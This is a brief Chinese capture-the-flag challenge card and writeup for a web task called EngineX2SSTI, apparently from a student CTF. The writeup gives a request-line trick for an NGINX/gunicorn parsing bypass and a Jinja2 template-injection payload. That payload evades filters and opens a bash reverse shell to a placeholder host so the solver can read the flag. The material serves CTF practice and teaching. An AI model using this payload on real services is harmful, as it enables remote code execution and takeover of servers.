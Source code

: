 - **题目名称：** EngineX2SSTI
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** itSssm3
- **考点：**
1. NGINX配合gunicorn解析绕过
2. 无回显ssti
- **描述：** 这个nginx怎么不对劲……怎么ssti也不对劲呜呜呜呜
- **flag：** XSCTF{flag}
- **Writeup：** 

```
POST /secret	HTTP/1.1/../../hello HTTP/1.1
……
……

xscode={{lipsum.__globals__.__builtins__.__import__('os')['p''open']('bash+-c+"bash+-i+>%26+/dev/tcp/vps/port+0>%261"').read()}}
```
反弹shell之后 `cat flag` 就行了